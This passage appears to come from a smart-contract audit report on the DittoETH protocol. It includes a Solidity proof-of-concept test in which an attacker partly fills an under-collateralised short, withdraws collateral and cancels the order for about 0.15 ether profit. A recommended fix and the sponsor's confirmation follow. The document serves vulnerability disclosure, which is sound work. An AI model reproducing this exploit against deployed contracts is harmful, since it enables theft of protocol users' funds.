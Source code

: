 ```solidity
        assertEq(diamond.getVaultUserStruct(vault, sender).ethEscrowed, 0);
        depositEth(sender, price.mulU88(minShortErc).mulU88(1.7e18));
        uint initialEth = diamond.getVaultUserStruct(vault, sender).ethEscrowed;
        
        // creates a Short Order with CR = 0.7
        uint16[] memory shortHintArray = setShortHintArray();
        MTypes.OrderHint[] memory orderHintArray = diamond.getHintArray(asset, price, O.LimitShort, 1);
        vm.prank(sender);
        diamond.createLimitShort(asset, price, minShortErc, orderHintArray, shortHintArray, 70);        

        // creates a Bid which completely fills the first Short Order and only fills 
        // 100000 wei in the second WEI
        fundLimitBidOpt(price, amount +  100000, receiver);

        assertEq(diamond.getAssetUserStruct(asset, sender).ercEscrowed, 0);
        vm.startPrank(sender);
        // decreases collateral by 499999999999999958, the collateral added to cover minShortErc is
        // 500000000000000000, but we can't remove everything because the protocol requires us to cover
        // the tiny debt we created
        decreaseCollateral(3, 499999999999999958); 
        cancelShort(101);
        
        uint finalEth = diamond.getVaultUserStruct(vault, sender).ethEscrowed;
        uint ercEscrowed = diamond.getAssetUserStruct(asset, sender).ercEscrowed;
        // profit ~= 0.15 ether ( price.mulU88(ercEscrowed) - initialEth-finalEth )
        assertGt(price.mulU88(ercEscrowed), initialEth-finalEth); 
        // the attacker can also decide to liquidate the position and earn more rewards
        assertLt(diamond.getCollateralRatio(asset, getShortRecord(sender, 3)), 150e18);
    }
```

### Recommended Mitigation Steps

Consider adding a check to `cancelOrder()` to ensure the resulting SR Collateral Ratio is not below the redemption and liquidation collateral ratios.

```solidity
        if (cRatio < LibOrders.max(LibAsset.liquidationCR(asset), C.MAX_REDEMPTION_CR)) {
            revert Errors.ShortBelowCRThreshold();
        }
```

**[ditto-eth (sponsor) confirmed and commented](https://github.com/code-423n4/2024-07-dittoeth-findings/issues/2#issuecomment-2231816425):**
 > Good find, will fix this issue in `decreaseCollateral()` instead of `cancelShort()`.


***

 
# Medium Risk Findings (1)
## [[M-01] Users can evade the `yDUSD` vault's withdrawal timelock mechanism](https://github.com/code-423n4/2024-07-dittoeth-findings/issues/9)
*Submitted by [serial-coder](https://github.com/code-423n4/2024-07-dittoeth-findings/issues/9)*
